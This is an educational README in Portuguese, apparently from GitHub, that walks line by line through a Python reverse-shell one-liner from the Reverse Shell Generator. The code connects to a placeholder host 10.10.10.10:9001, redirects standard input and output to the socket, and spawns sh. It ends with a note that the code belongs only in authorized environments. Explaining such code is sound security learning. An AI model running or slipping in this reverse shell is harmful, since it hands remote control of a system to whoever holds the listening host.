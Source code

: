 
<h1 align="center">
   🔗 Code Review de um Reverse Shell
</h1>

<h2>👾  Descrição</h2>

Se você é um entusiasta do hacking e da Segurança da Informação com certeza você já usou ou já ouviu falar sobre o Reverse Shell Generator. É uma plataforma Web que você consegue utilizar um gerador de conexão reversa de diversos tipos de conexões para Windows, Linux e MAC, e com diferentes linguagens como: Python, C, Ruby e por ai vai.

Todo mundo sempre copia e cola um ou outro código de Shell reverso e percebendo isso resolvi questionar como realmente funciona um Reverse Shell. Será mesmo que é só copiar ou colar? Porque não podemos ir a fundo até os bits e opcodes e ver oque podemos aprender com isso? Bora lá!


<h3>👾  O código</h3>

~~~shellscript
RHOST="10.10.10.10";export RPORT=9001;python
-c 'import sys,socket,os,pty;s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
~~~~
Esse código é um exemplo de um "one-liner" em Python que pode ser usado para estabelecer uma conexão de rede com um servidor remoto em um determinado endereço IP (RHOST) 
porta (RPORT) e, em seguida, criar um shell interativo no servidor remoto. Vamos quebrar o código em detalhes! Então sente-se e bora hackear!

<h3>👾  Analisando o código</h3>

1)
~~~shellscript
export RHOST="10.10.10.10"; export RPORT=9001;
~~~~
Essas são duas instruções export em shell que definem variáveis de ambiente. RHOST é definido como o endereço IP do servidor remoto (neste caso, "10.10.10.10"), e RPORT é definido como o número da porta (neste caso, 9001).

2)
~~~shellscript
python -c '... '
~~~~
 Isso inicia a execução do Python com um comando inline. O código Python entre as 'aspas' simples será executado.
 
 3)
 ~~~shellscript
import sys,socket,os,pty;
~~~~
 Isso importa os módulos Python necessários para a execução do código:
 
  * sys: Fornece acesso a variáveis e funções relacionadas ao sistema.
  * socket: Permite a criação de soquetes para comunicação em rede.
  * os: Fornece funcionalidades relacionadas ao sistema operacional.
  * pty: É usado para interagir com terminais pseudo-TTY.

 4)
 ~~~shellscript
s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
~~~~

Aqui, um objeto de soquete (s) é criado usando a classe socket.socket(). Em seguida, é estabelecida uma conexão com o servidor remoto usando o endereço IP e a porta definidos nas variáveis de ambiente RHOST e RPORT. os.getenv é usado para acessar os valores das variáveis de ambiente definidas anteriormente.

 5)
 ~~~shellscript
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
~~~~
Este é um list comprehension que duplica os descritores de arquivo padrão (stdin, stdout e stderr) para o soquete criado. Isso redireciona a entrada e saída padrão para a conexão de rede, permitindo que comandos sejam enviados e recebidos pelo servidor remoto.

 6)
 ~~~shellscript
pty.spawn("sh")
~~~~
Finalmente, a função pty.spawn é usada para criar um shell interativo no servidor remoto. Isso permite que o usuário interaja com o servidor remoto como se estivesse no prompt de comando do servidor.

Em resumo, este código Python é um exemplo de um "one-liner" que estabelece uma conexão de rede com um servidor remoto e cria um shell interativo para interagir com o servidor. É importante notar que esse tipo de código pode ser usado para fins maliciosos, portanto, deve ser usado com responsabilidade e apenas em ambientes autorizados.









